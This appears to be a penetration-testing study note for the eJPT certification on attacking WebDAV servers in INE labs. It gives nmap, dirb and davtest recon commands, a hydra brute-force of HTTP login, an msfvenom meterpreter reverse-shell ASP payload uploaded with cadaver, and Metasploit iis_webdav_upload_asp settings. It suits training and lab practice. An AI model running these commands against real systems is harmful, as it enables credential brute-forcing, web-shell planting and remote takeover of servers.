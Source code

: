 # WebDav

What it is:
WebDAV is a set of extensions to the HTTP protocol that enables users to create, modify, and manage files on a remote web server.

## Identify it

Run nnamp on the target:

```bash
sudo nmap -p 80 -sV -sC -O <TARGET_IP>
```

It should return in the output the MS Service IIS that is a MS server simillar to apache.

Other forms of identifiying Webdav can be with the following nmap scripts:


```bash
nmap -p 80 --script=http-enum -sV <TARGET_IP>
nmap -p 80 --script=http-headers -sV <TARGET_IP>
nmap -p 80 --script=http-methods --script-args http-methods.url-path=/webdav/ <TARGET_IP>
nmap -p 80 --script=http-webdav-scan --script-args http-methods.url-path=/webdav/ <TARGET_IP>
```

There are other methods when nmap fails such as whatweb, http or browsh, however for eJPT nmap is always reliable. While you can go ahead and run various nmap scripts you can also use dirb after the initial recon to identify what directory there are on the webserver and identify webdav.

```bash
dirb http://<TARGET_IP>
```

### Authentication

The webserver might have a simple authentication preventing you from reaching the directories, for this you can bruteforce a simple form (type of request can be analysed in the dev tool of the browser)

```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt <TARGET_IP> http-get /webdav/
```

If dirb failed because of the lack of authentication try it again with the set of creds captured:

```bash
dirb http://<TARGET_IP> -u <user>:<password>
```

### Metasploit

All this could be done with metasploit, however the manual way is more reliable.

```bash
use auxiliary/scanner/http/robots_txt
use auxiliary/scanner/http/http_header
use auxiliary/scanner/http/http_login
use auxiliary/scanner/http/http_version
```

## Exploit it

### Recon

First lets test some DAV tools with our set of credentials.

Test if webdav is vulnerable to file uploads:

```bash
davtest -url <URL>
davtest -auth <USER>:<PW> -url http://<TARGET_IP>/webdav
```

### Reverse shell

Create a reverse shell with msfvenom, for this its important to know what files can be executed by webdav, this can be found out by exploring it in the browser, usually its asp files.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f asp > shell.asp
```

Upload it to the server using cadaver:

```bash
cadaver <target>
PUT shell.asp
```

Access it via the browser and you just got a reverse shell.

### Metasploit

Metasploit has proven to be unreliable in some INE labs. Uploading the reverse shell but without executable permissions.


```bash
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use exploit/multi/handler
use exploit/windows/iis/iis_webdav_upload_asp

set payload windows/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>

set HttpUsername <USER>
set HttpPassword <PW>
set PATH /webdav/metasploit.asp
```